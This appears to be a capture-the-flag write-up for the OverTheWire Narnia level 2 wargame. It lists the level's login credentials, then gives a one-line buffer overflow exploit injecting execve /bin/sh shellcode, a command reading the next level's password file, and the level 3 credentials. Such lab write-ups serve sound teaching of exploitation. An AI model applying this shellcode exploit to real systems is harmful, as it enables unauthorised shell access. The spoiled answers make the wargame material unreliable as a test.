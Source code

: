 ### Narnia Level 2

[narnia2](http://overthewire.org/wargames/narnia/narnia2.html)

**Username**: *narnia2*

**Password**: *nairiepecu*


### Solution

* http://shell-storm.org/shellcode/files/shellcode-811.php

```bash
./narnia2 $(python -c 'print "\x90"*112 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x70\xd8\xff\xff"')
cat /etc/narnia_pass/narnia3
```


#### Credentials for Level 3

**Username**: *narnia3*

**Password**: *vaequeezee*

